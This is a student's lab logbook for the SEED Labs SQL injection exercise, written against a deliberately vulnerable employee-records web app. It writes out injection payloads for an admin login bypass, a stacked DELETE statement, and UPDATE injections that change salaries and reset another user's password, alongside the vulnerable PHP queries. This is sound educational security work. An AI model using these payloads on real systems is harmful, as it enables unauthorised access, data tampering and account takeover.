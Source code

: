 # **Week #8**

## **SEEDs Lab**

https://seedsecuritylabs.org/Labs_20.04/Web/Web_SQL_Injection/

## Task 1 - Get Familiar with SQL Statements

The objective of this task was for us to get familiar with SQL commands by playing with the provided database.

To interact with the database we needed to follow some steps. First, we need to get a shell on the MySQL container. Second, we need to use the MySQL client program to interact with the database by using the command "mysql -u root -pdees". Finally, we load the already provided database `sqllab_users`.

![screenshot1](screenshots/LOGBOOK8/screenshot1.png)

After following these steps we can start interacting with the database. A simple query was made to return one row from the `credentials` table, in this case, the profile information of the employee Alice.

![screenshot2](screenshots/LOGBOOK8/screenshot2.png)

The query made was: __`SELECT * FROM credential WHERE Name='Alice'`__

## Task 2: SQL Injection Attack on SELECT Statement
The main purpose of this task is to introduce us to what a SQL injection attack is, what it looks like, what system vulnerabilities will allow this attack to be successful, and how to conduct an attack.
### 2.1 -  SQL Injection Attack from webpage
Our task was to log into the web application as the administrator from the login page, so we could see the information of all the employees.

We focus on the query made in __unsafe_home.php__:

``` php
$sql = "SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password
FROM credential
WHERE name= ’$input_uname’ and Password=’$hashed_pwd’";
```

The person that made this code expects the user to insert only the username and the password.

But what if we send the following input: 

![screenshot3](screenshots/LOGBOOK8/screenshot3.png)

By inputing the double dash everything at the right is commented which means it will be ignored and the only restriction will be the name. By passing the admin name and then closing it with the single quote, the actual query will fetch the admin row by name, bypassing the password verification and logging in as the admin.

![screenshot4](screenshots/LOGBOOK8/screenshot4.png)

__Conclusion__: if the user input is not verified, it can be used to change the query and make something completely different from what the original programmer intended, in this case, something harmfull.

### Task 2.2: SQL Injection Attack from command line
Our task here is to make another SQL injection attack through the command line.

We can make a http request using curl, in order to fecth the data from the server. The url we use includes query parameters were the username and password should be defined in order to authenticate the user, so the same logic as before can be applied. The only restriction however is that special characters should be encoded.

In this case:
```
single quote(') = %27
white space( ) = %20
double dash(--) = %2D
```
![screenshot5](screenshots/LOGBOOK8/screenshot5.png)

The server responds with html, here is a brief presentation of the file:

![screenshot6](screenshots/LOGBOOK8/screenshot6.png)

### Task 2.3: Append a new SQL statement
The purpose of this task is to make a sql injection attack that turns one SQL statement into two, with the second one being the update or delete statement.

The same logic as before is applied, the only difference is we separate the statements using a semicolon(;).

We tried the following input:

![screenshot7](screenshots/LOGBOOK8/screenshot7.png)

__username input__: `admin'; DELETE FROM credential WHERE Name= 'Alice' -- '`

In that case, the `WHERE` part should look like this: 

``` php
WHERE name= ’admin’; DELETE FROM credential WHERE Name= ’Alice’ -- ’’  and Password=’$hashed_pwd’
```

So again we ignore the right side of the double dash and we have a two statement query. However this is the result.

![screenshot8](screenshots/LOGBOOK8/screenshot8.png)

If we analyze __``unsafe_home.php``__ we know what function is used to make the query:
```
$result = $conn -> query($sql);
``` 

The problem here is that ``query()`` only executes one sql statement so it invalidates the second statemant.
This limitation can be overcome by using ``mysqli->multiquery()``.

__Conclusion__: Even tough the program doesn't have protection for dirty inputs, it can ensure only one query is made.

## Task 3: SQL Injection Attack on UPDATE Statement
The objective of this task is to see how much worse the attack can be if it happens to an UPDATE statment.

### Task 3.1: Modify your own salary
In this task we will see how to apply the attack on UPDATE statement

The first thing we do is enter Alice account.
We can see initialy what her information is:
![screenshot9](screenshots/LOGBOOK8/screenshot9.png)

Then on her edit account resource we give the following input:

![screenshot10](screenshots/LOGBOOK8/screenshot10.png)

__username input__: ``Alice' ,  Salary=40000 --'``

As a result the update statemant will be something like this:
``` php
$sql = "UPDATE credential SET
nickname=’Alice’,  Salary=40000 --’’,
email=’$input_email’,
address=’$input_address’,
Password=’$hashed_pwd’,
PhoneNumber=’$input_phonenumber’
WHERE ID=$id;";
```

The same logic of the previous tasks applies, therefore the only changes happens in the nickname and the salary.

![screenshot11](screenshots/LOGBOOK8/screenshot11.png)

__Conclusion__: We can make a sql attack on a update statement and change the content of the database.

### Task 3.2: : Modify other people’ salary.
The objective of this task is to understand how to change other users information and change Boby's initial salary.

We made a query to the database in order to check Boby's initial salary.
![screenshot12](screenshots/LOGBOOK8/screenshot12.png)

We do the same thing we did in the previous task but we add `WHERE` specification:

We enter Alice account and inject the malicious code.
![screenshot13](screenshots/LOGBOOK8/screenshot13.png)

__username input__: ``Boby', salary=1 WHERE Name ='Boby' -- '``

As a result the update statemant will be something like this:
```php
$sql = "UPDATE credential SET
nickname=’Boby’, salary=1 WHERE Name =’Boby’ -- ’’,
email=’$input_email’,
address=’$input_address’,
Password=’$hashed_pwd’,
PhoneNumber=’$input_phonenumber’
WHERE ID=$id;";
```
The only changed paramaters are the nickname and the salary, and this time the `WHERE` we specified will affect another user.

The resulting database is:

![screenshot14](screenshots/LOGBOOK8/screenshot14.png)

### Task 3.3: Modify other people’ password.
The objective is to understand how to change other users passwords.

The first thing we do is enter Alice account and inject the malicious code.
![screenshot15](screenshots/LOGBOOK8/screenshot15.png)

__username input__: ``Boby', Password=sha1('ihateboby') WHERE Name ='Boby' -- '``

As a result the update statemant will be something like this:
```php
$sql = "UPDATE credential SET
nickname=’Boby’, Password=sha1(’ihateboby’) WHERE Name =’Boby’ -- ’’,
email=’$input_email’,
address=’$input_address’,
Password=’$hashed_pwd’,
PhoneNumber=’$input_phonenumber’
WHERE ID=$id;";
```

The only changed paramaters are the nickname and the password, and this time the `WHERE` we specified will affect another user. It is issential that we use `sha1()` because every time the user wants to authenticate the password used in the query will be a hash value, therefore in order to bypass this security mechanism we need to store the hash value of the password. 

Then we access Boby's account with new password.
![screenshot16](screenshots/LOGBOOK8/screenshot16.png)

![screenshot17](screenshots/LOGBOOK8/screenshot17.png)

__Conclusion__: If we apply the method of the last task and use the respective hash function we change other users password.
